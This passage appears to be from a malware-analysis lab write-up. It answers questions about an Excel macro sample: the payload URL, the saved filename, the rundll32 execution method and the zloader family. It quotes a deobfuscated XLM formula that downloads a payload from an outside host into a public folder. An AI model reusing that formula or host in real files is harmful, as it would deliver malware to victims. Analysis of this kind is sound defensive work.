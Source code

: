 &nbsp;


## Q11. Sample2: What URL does the malware download the payload from?
- Again the answer can be found in the output of the `xmldeobfuscator`.
```
--snip--;
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
--snip--;
```
## Answer
```
https://ethelenecrace.xyz/fbb3
```

&nbsp;


## Q12. Sample2: What is the filename that the payload is saved as?
- The answer lies in the previous snippet.
## Answer
```
bmjn5ef.html
```

&nbsp;


## Q13. Sample2: How is the payload executed? For example, mshta.exe
- We can find the answer in in the same snippet as Q10 as the payload is first opened and then executed.
## Answer
```
rundll32.exe
```

&nbsp;


## Q14. Sample2: What was the malware family?
- Use `md5sum` to obtain the file hash.
```
$ md5sum sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin 
b5d469a07709b5ca6fee934b1e5e8e38  sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin
```
 - Let's look up this hash in VirusTotal.

![xls 14](https://github.com/Knign/Write-ups/assets/110326359/31f314f8-8cff-4790-bf74-2dca9894b106)

- The answer is the one listed by TrendMicro.
## Answer
```
zloader
```
